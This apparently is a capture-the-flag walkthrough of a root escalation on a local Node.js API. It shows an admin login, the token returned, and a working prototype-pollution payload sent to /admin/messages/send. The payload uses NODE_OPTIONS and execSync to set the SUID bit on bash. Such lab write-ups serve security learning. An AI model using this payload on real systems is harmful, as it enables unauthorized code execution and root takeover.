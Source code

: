 ## API Fun

### API Token
Login using our creds to get our api token

```bash
curl -X POST http://localhost:3000/auth/login -H 'Content-Type: application/json' -d '{"username":"mrk1", "password":"xxxx"}'
```

```json
{"Status":"Ok","Header":{"x-access-token":"eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VyIjoibXJrMSIsImlzX2F1dGgiOnRydWUsInJvbGUiOiJhZG1pbiIsImlhdCI6MTY3MDkxMzMxMSwiZXhwIjoxNjcwOTE2OTExfQ.GYSuGRHHR9kGXFhLl8vXCIzuWvz0JK1PIkoOihFq2Eo"}}
```

### API Documentation

```bash
curl -X GET http://localhost:3000/documentation -H 'Content-Type: application/json' -H 'x-access-token: eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VyIjoibXJrMSIsImlzX2F1dGgiOnRydWUsInJvbGUiOiJhZG1pbiIsImlhdCI6MTY3MDkxMzMxMSwiZXhwIjoxNjcwOTE2OTExfQ.GYSuGRHHR9kGXFhLl8vXCIzuWvz0JK1PIkoOihFq2Eo'
```

```json
# Short Version
{
  "Documentation": {
    "Routes": {
      "/admin/messages/send": {
        "Methods": "POST",
        "Params": {
          "text": "message text"
        }
      }
    }
  }
}
```

## RCE

We will `chmod +s /usr/bin/bash` so that we can get to root by using `/usr/bin/bash -p`

```bash
curl -X POST http://localhost:3000/admin/messages/send -H 'Content-Type: application/json' -H 'x-access-token: eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VyIjoibXJrMSIsImlzX2F1dGgiOnRydWUsInJvbGUiOiJhZG1pbiIsImlhdCI6MTY3MDkxMzMxMSwiZXhwIjoxNjcwOTE2OTExfQ.GYSuGRHHR9kGXFhLl8vXCIzuWvz0JK1PIkoOihFq2Eo' -d '{"text":{"constructor":{"prototype":{"shell":"/proc/self/exe","argv0":"console.log(require(\"child_process\").execSync(\"chmod +s /usr/bin/bash\").toString())//","NODE_OPTIONS":"--require /proc/self/cmdline"}}}}'
```

```bash
ls -al /usr/bin/bash
-rwsr-sr-x 1 root root 1234376 Mar 27  2022 /usr/bin/bash
```

# Root

We're now root and get the last flag in /root 